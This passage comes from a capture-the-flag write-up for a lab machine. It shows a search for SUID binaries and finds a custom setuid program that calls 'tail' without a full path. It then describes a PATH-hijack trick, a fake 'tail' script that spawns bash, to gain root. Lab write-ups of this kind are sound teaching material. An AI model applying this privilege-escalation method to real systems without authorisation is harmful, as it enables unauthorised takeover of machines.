 Let's search for SUID binaries wit the command `find / -type f -perm -u=s 2>/dev/null`.

```terminal
barry@mustacchio:~$ find / -type f -perm -u=s 2>/dev/null 
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```

We find a binary in joe's home directory called `live_log`, let's check it out.

```
barry@mustacchio:/home/joe$ file live_log                                     
live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a6809
4c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped            
barry@mustacchio:/home/joe$ strings live_log                                                                                              

[** SNIP **]

Live Nginx Log Reader
tail -f /var/log/nginx/access.log

[** SNIP **]
```

The file is an executable, running `strings` on it we find that it runs `tail` without a path.

We can write a script that that executes bash, name it `tail`, put it in /tmp directory for example and add that directory to the PATH variable. When the `live_log` program run it will execute out `tail` program.

![](12.png)

And just like that we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
